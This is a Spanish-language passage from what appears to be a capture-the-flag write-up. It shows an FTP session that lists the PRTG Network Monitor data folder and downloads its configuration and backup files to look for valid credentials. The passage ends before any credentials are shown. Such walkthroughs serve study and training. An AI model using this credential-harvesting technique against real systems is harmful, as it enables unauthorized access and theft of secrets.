 ## BUSCAR CREDENCIALES VALIDAS

<h3>PATH UTILIZADO POR PRTG</h3>

Si googleamos que path utiliza PRTG NETWORK MONITOR encontramos el siguiente `/ProgramData/Paessler/PRTG Network Monitor`, vamos a ver que encontramos.

```zsh
ftp> pwd
Remote directory: /
ftp> cd "/ProgramData/Paessler/PRTG Network Monitor"
250 CWD command successful.
ftp> dir
229 Entering Extended Passive Mode (|||50880|)
125 Data connection already open; Transfer starting.
12-15-21  08:23AM       <DIR>          Configuration Auto-Backups
07-25-22  03:33PM       <DIR>          Log Database
02-03-19  12:18AM       <DIR>          Logs (Debug)
02-03-19  12:18AM       <DIR>          Logs (Sensors)
02-03-19  12:18AM       <DIR>          Logs (System)
07-25-22  03:33PM       <DIR>          Logs (Web Server)
07-25-22  03:38PM       <DIR>          Monitoring Database
02-25-19  10:54PM              1189697 PRTG Configuration.dat 
02-25-19  10:54PM              1189697 PRTG Configuration.old
07-14-18  03:13AM              1153755 PRTG Configuration.old.bak
07-25-22  04:14PM              1671886 PRTG Graph Data Cache.dat
02-25-19  11:00PM       <DIR>          Report PDFs
02-03-19  12:18AM       <DIR>          System Information Database
02-03-19  12:40AM       <DIR>          Ticket Database
02-03-19  12:18AM       <DIR>          ToDo Database

```
Todos los archivos de configuración son interesantes, habitualmente existen usuarios válidos o incluso contraseñas. 

Nos descargamos los archivos.

```zsh
ftp> get "PRTG Configuration.dat"
local: PRTG Configuration.dat remote: PRTG Configuration.dat
229 Entering Extended Passive Mode (|||50901|)
125 Data connection already open; Transfer starting.
100% |******************************************************************************************************************************************************************|  1161 KiB    1.13 MiB/s    00:00 ETAftp: Reading from network: Llamada al sistema interrumpida
  0% |                                                                                                                                                                  |    -1        0.00 KiB/s    --:-- ETA
226 Transfer complete.
ftp> get "PRTG Configuration.old.bak"
local: PRTG Configuration.old.bak remote: PRTG Configuration.old.bak
229 Entering Extended Passive Mode (|||50931|)
125 Data connection already open; Transfer starting.
100% |******************************************************************************************************************************************************************|  1126 KiB    1.14 MiB/s    00:00 ETA
226 Transfer complete.
1153755 bytes received in 00:00 (1.09 MiB/s)

```
<br>Si nos fijamos en la cantidad de líneas que tienen los archivos obtenemos lo siguiente
